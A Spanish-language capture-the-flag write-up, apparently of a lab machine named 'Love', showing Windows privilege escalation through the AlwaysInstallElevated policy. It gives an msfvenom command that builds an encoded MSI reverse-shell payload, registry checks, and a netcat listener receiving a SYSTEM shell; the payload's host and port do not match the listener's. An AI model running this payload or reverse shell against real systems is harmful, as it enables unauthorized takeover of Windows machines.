 Tenemos activado el AlwaysInstallElevated con Phoebe.

AlwaysInstallElevated es una funcionalidad que ofrece a todos los usuarios (especialmente a los usuarios con pocos privilegios) en una máquina con Windows ejecutar cualquier archivo MSI con privilegios elevados. MSI es un formato de archivo de paquete de instalación basado en Microsoft que se utiliza para instalar, almacenar y eliminar un programa.

A continuación, se muestra un ejemplo sobre cómo comprobar esta funcionalidad.

Nos creamos nuestro archivo malicioso con el payload:

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
```

Ahora ejecutaremos el comando de consulta del registro en este símbolo del sistema para verificar si el instalador de Windows tiene privilegios elevados o no.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

AlwaysInstallElevated.msi
AlwaysInstallElevated.msi

C:\Users\Phoebe\Desktop>
```

Como podemos ver en el resultado, el registro llamado “AlwaysInstallElevated” existe con un valor de dword (REG_WORD) de 0x1, lo que significa que la política AlwaysInstallElevated está habilitada.

Ejecutamos el archivo malicioso y obtenemos una rev. shell 

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.239] 50809
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

hostname
hostname
Love

C:\WINDOWS\system32>
```

